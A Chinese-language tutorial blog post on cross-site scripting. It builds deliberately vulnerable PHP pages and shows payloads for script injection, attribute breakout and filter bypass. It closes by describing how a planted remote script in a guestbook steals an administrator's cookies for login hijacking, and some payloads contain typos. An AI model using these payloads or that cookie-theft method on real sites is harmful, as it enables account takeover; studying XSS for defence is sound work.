






<!-- more -->

# XXS 攻击

参看：

[XSS 的原理分析与解剖](https://www.freebuf.com/articles/web/40520.html)

[前端安全 -- XSS 攻击](https://www.cnblogs.com/hellojesson/p/6386002.html)

[web 大前端开发中一些常见的安全性问题](https://blog.csdn.net/a401461843/article/details/77622299/)

## 前言

**XSS** 是面试时，hr 提出来给我的，然后大体的浏览一遍，今天才查阅资料大体了解了它。

**XSS** 攻击：攻击者向 HTML 页面传入恶意的 HTML 或 JS 代码，当用户浏览该页面时，恶意代码执行，达到攻击的目的。

## 原理实现

在本地搭建 PHP 环境（使用 phpstudy 安装），然后在`index.php`文件中输入一下代码：

```php+HTML
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
  <title>XSS原理重现</title>
</head>
<body>
<form action="" method="get">
  <input type="text" name="xss_input">
  <input type="submit">
</form>
<hr>
<?php
  header("X-XSS-Protection: 0"); // 0： 表示关闭浏览器的XSS防护机制
  error_reporting(0); // 加上error_reporting(0);就不会弹出警告了
  $xss = $_GET['xss_input'];
  echo '<h5>你输入的字符为</h5><br />'.$xss;
?>
</body>
</html>
```

现在在输入框中输入`abc`普通字符串，然后在页面中显示：



之后查看页面代码，就会发现页面上多了一行代码：

```html
<!DOCTYPE html>
<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <title>XSS原理重现</title>
  </head>
  <body>
    <form action="" method="get">
      <input type="text" name="xss_input" />
      <input type="submit" />
    </form>
    <hr />
    /*------多了的代码：123-------*/
    <h5>你输入的字符为</h5>
    <br />
    123
  </body>
</html>
```

此时，我要是在输入`<script>alert('xss')</script>`这种可以被解析的代码时：

现在页面就显现出 xss 漏洞了。



之后查看页面代码，就会发现页面上多了一行代码：

```html
<!DOCTYPE html>
<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <title>XSS原理重现</title>
  </head>
  <body>
    <form action="" method="get">
      <input type="text" name="xss_input" />
      <input type="submit" />
    </form>
    <hr />
    /*------多了的代码：
    <script>
      alert('xss');
    </script>
    -------*/ // 代码出现在 br标签 和 body标签中
    <h5>你输入的字符为</h5>
    <br />
    <script>
      alert('xss');
    </script>
  </body>
</html>
```

## xss 利用输出环境来构造代码

现在我要改变 **xss** 攻击：

以上测试是在，标签中插入`scrpit`标签达到攻击的目的；现在我想要在`html页面标签`的属性中插入**xss**攻击代码。因此，当你我输入`<script>alert('xss')</script>`，不会显示出弹框了。

### 测试代码

```php+HTML

<!DOCTYPE html>
<html>

<head>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
  <title>XSS利用输出的环境来构造代码</title>
</head>

<body>
  <center>
    <h6>把我们输入的字符串 输出到input里的value属性里</h6>
    <form action="" method="get">
      <h6>请输入你想显现的字符串</h6>
      <input type="text" name="xss_input_value" value="输入"><br>
      <input type="submit">
    </form>
    <hr>
    <?php
      header("X-XSS-Protection: 0");
      error_reporting(0);//加上error_reporting(0);就不会弹出警告了
      $xss = $_GET['xss_input_value'];
      if(isset($xss)){
      echo '<input type="text" value="'.$xss.'">';
      }else{
      echo '<input type="type" value="输出">';
      }
    ?>
  </center>
</body>

</html>
```

页面效果：



### 输入一

当我在输入框输入`qwer`字符串时，会在输出框显示我输入的字符串：



此时网页代码：

```html
<center>
  <h6>把我们输入的字符串 输出到input里的value属性里</h6>
  <form action="" method="get">
    <h6>请输入你想显现的字符串</h6>
    <input type="text" name="xss_input_value" value="输入" />
    <br />
    <input type="submit" />
  </form>
  <hr />
  <input type="text" value="qwer" />
</center>
```

### 输入二

现在我输入`<script>alert('xss')</script>`，字符串正常输入，明显的可以看到，并没有弹出对话框：



此时网页代码：

```html
<body>
  <center>
    <h6>把我们输入的字符串 输出到input里的value属性里</h6>
    <form action="" method="get">
      <h6>请输入你想显现的字符串</h6>
      <input type="text" name="xss_input_value" value="输入" />
      <br />
      <input type="submit" />
    </form>
    <hr />
    <input type="text" value="<script>alert('xss')</script>" />
  </center>
</body>
```

分析输出代码：

```html
<input type="text" value="<script>alert('xss')</script>">  </center>
```

### 输入三

如果我输入`">`，就会变成：

```html
<input type="text" value=""> ">  </center>
```

input 提前闭合了！之后的`">`就被舍弃了，变成了普通文本。

### 输入四

如果我输入：`"><script>alert('xss')</script>`

显示效果：



### 输入五

现在我不想显示弹框攻击了，我想触发某种事件实现攻击，那么就输入以下内容：

```html
" onmousemove="alert('我就测试一下')"
```

显示结果：


页面代码：

```html
<center>
  <h6>把我们输入的字符串 输出到input里的value属性里</h6>
  <form action="" method="get">
    <h6>请输入你想显现的字符串</h6>
    <input type="text" name="xss_input_value" value="输入" />
    <br />
    <input type="submit" />
  </form>
  <hr />
  <input type="text" value="" onmousemove="alert('我就测试一下')"">
</center>
```

**说明：输入以后，鼠标在移动是触发事件，形成 xss 攻击。**

那么，我在<textarea> 标签中显示呢？

此时就这样输入：

```html
</textarea> <script>alert(‘xss’)</script> // 就可以实现弹窗了
```

## 过滤的解决办法

假如说网站禁止过滤了 script 这时该怎么办呢 ？

那么就需要记住：**只要页面能触发你的 js 代码**

有哪些方法呢？

```html

<!-- 当找不到图片名为1的文件时，执行alert('xss') -->


<!-- 点击s时运行alert('xss') -->
<a href=javascrip:alert('xss')>s</a>

<!-- 利用iframe的scr来弹窗 -->
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>

 <!-- 过滤了alert来执行弹窗 -->
</img>
```

## xss 的利用

```html
<script scr="js_url"></script>


```

**比如我们在网站的留言区输入`<script scr=”js_url”></script>`**

**当管理员进后台浏览留言的时候，就会触发**

**然后管理员的 cookies 和后台地址还有管理员浏览器版本等等**

**你都可以获取到了，再用“桂林老兵 cookie 欺骗工具”来更改你的 cookies，**

**就可以不用输入账号 密码 验证码 就可以以管理员的方式来进行登录了。**
